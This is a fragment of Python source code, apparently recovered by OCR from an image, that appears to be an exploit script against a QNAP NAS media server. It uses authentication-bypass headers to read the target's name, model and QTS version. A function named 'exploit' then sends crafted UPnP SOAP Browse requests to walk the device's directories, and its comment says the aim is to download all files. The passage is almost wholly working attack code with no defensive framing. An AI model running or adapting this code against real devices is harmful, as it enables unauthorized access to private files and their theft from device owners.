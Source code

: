 ```python
        os.makedirs(path)

#
# GET TARGET INFO
#
def get_rootDesc(sess:requests.Session):
    res = sess.get(url=f"{HOST}/rootDesc.xml", headers=auth_bypass_header)
    obj = parseString(html.unescape(res.text))
    
    NAME = obj.getElementsByTagName('friendlyName')[0].firstChild.nodeValue
    MODEL = obj.getElementsByTagName('av:MODEL')[0].firstChild.nodeValue
    VERSION = obj.getElementsByTagName('av:VERSION')[0].firstChild.nodeValue
    
    log(f"TARGET NAME: {NAME}")
    log(f"TARGET MODEL: {MODEL}")
    log(f"TARGET QTS VERSION: {VERSION}")

#
# This Function Search Directory And Download All Files
#
def exploit(sess:requests.Session):
    header = auth_post_bypass_header.copy()

    header['Soapaction'] = "urn:schemas-upnp-org:service:ContentDirectory:1:#Browse"
    
    pay = """<?xml version="1.0" encoding="utf-8" standalone="yes"?>"""
    pay += """<s:Envelope s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:s="http://schemas.xmlsoap.org/soap/envelope/">"""
    pay += """<s:Body><u:Browse xmlns:u="urn:schemas-upnp-org:service:ContentDirectory:{0}">"""
    pay += """<ObjectID>{1}</ObjectID>"""
    pay += """<BrowseFlag>BrowseDirectChildren</BrowseFlag>"""
    pay += """</u:Browse></s:Body></s:Envelope>"""
    
    res = sess.post(url=HOST, headers=header, data=pay.format(0, 0))
    obj = parseString(html.unescape(res.text))
    element = obj.getElementsByTagName('container')
    
    keys1 = {}
    for ee in element:
        dir_name = ee.getElementsByTagName("dc:title")[0].firstChild.nodeValue
        log(f"FIND: {dir_name}")
        keys1[dir_name] = ee.getAttribute("id")
        

    keys2 = []

    for k,v in keys1.items():
        res = sess.post(url=f"{HOST}", headers=header, data=pay.format(v, v))
        obj = parseString(html.unescape(res.text))
        element = obj.getElementsByTagName('container')
        
        for ee in element:
            dir_name = ee.getElementsByTagName("dc:title")[0].firstChild.nodeValue
            #log(f"FIND: {dir_name}")
            keys2.append([v, dir_name, ee.getAttribute("id")])
    keys3 = []

    for k in keys2:
        res = sess.post(url=f"{HOST}", headers=header, data=pay.format(1, k[-1]))

        obj = parseString(html.unescape(res.text))
        element = obj.getElementsByTagName('container')
        for ee in element:
```